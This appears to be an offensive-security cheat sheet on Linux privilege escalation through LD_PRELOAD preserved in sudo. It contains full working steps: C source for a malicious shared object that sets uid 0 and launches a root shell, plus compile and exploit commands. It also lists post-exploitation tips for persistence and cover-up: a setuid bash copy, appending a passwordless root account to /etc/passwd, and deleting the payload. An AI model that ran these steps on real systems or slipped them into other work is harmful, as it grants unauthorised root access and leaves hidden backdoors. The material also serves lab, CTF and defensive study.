 ### 1. Technique Name:

Shared Libraries – LD_PRELOAD Privilege Escalation
### 2. Summary:

Linux programs frequently use dynamically linked shared object libraries (`.so` files). These libraries can be abused for privilege escalation, especially when the `LD_PRELOAD` environment variable is preserved in a `sudo` context. By hijacking or injecting shared functions before a privileged binary executes, an attacker can trick the program into running arbitrary code as root.
### 3. Conditions / Requirements:

- User has `sudo` permissions over a binary (e.g., `sudo -l`)    
- `LD_PRELOAD` is allowed in the sudo environment (`env_keep+=LD_PRELOAD`)
- Ability to compile a `.so` shared object
- Binary being run does not sanitize or ignore `LD_PRELOAD`
- Target binary must be dynamically linked (not statically compiled)
### 4. Enumeration Steps:
#### A. Check your sudo privileges:

```bash
sudo -l
```

Look for:

- Allowed command (e.g., `/usr/sbin/apache2 restart`)
- `env_keep+=LD_PRELOAD` present under `Matching Defaults`
#### B. Identify if binary is dynamically linked:

```bash
ldd /usr/sbin/apache2
```

If shared libraries are listed, it is dynamically linked.
### 5. Exploitation Steps:
#### A. Create a malicious shared object:

```c
// root.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
#### B. Compile the shared object:

```bash
gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
```
#### C. Run the vulnerable command with LD_PRELOAD:

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
#### D. Confirm root access:

```bash
id
# uid=0(root) gid=0(root)
```
### 6. Post-Exploitation Tips:

- Add a persistent root shell:    

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

- Create a new root user:

```bash
echo 'haxor::0:0:root:/root:/bin/bash' >> /etc/passwd
```

- Clean up the malicious `.so` file:

```bash
rm /tmp/root.so
```
### 7. Example / Notes:

Sudo output:

```bash
(env_keep+=LD_PRELOAD)
(root) NOPASSWD: /usr/sbin/apache2 restart
```

Compiled shared object:

```bash
gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
```

Exploit command:

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

Expected output:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

This confirms successful privilege escalation via LD_PRELOAD injection.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Shared_Libraries #LD_PRELOAD